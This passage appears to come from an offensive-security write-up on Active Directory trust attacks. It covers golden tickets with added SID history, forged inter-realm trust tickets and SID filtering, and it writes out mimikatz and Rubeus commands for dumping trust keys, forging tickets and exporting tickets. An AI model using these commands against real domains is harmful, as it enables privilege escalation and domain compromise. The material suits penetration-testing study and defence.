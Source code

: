 ## Demo
The process will be the same as creating a golden ticket with the additional sid. 

```
kerberos::golden /user:Administrator /domain:<currentdomain> /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<S-1-5-21-<RootDomain>-519> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi
```
After creating the ticket, we can pass the ticket and access resources in the root domain as the enterprise admin. We can also perform a dcsync attack.


![PTT from child domain](/images/ptt.PNG)



# Trust Tickets
As mentioned earlier, when a trust is created there is a shared password called the inter-realm key. When a user presents the inter-realm TGT referral to the external KDC, the user's TGT is included within it. Since the external domain trusts the domain that issued the referral, it trusts that the user's TGT is accurate. This means that we can forge an inter-realm ticket that allows us to impersonate any user in our domain using the inter-realm key. And if we can retrieve the inter-realm key, it's also likely that we can pull the krbtgt hash allowing us to impersonate any user in the external domain/forest.


## Forging trust tickets

1. Dump trust key
2. Create a forged trust ticket
3. Use the trust ticket to get a TGS for a service in the targeted domain
4. PTT

- `mimikatz lsadump::trust /patch`
- `>> kerberos::golden /domain:current_domain /sid:current_domain_sid /rc4:trust_key /user:Administrator /service:krbtgt /target:external_domain /ticket:path_to_save`
- `rubeus asktgs /ticket:path_to_trust_ticket /service:cifs/domain_controller_of_external_domain`

# SID Filtering
SID History abuse cannot be done through a forest trust because of a protection called SID filtering. When a user's TGT is presented to the external domain, it contains a PAC (privileged attribute certificate). The PAC contains among other things the SIDs of the groups that we are a member of. We can view the PACs through mimikatz using:
- `sekurlsa::tickets /export`
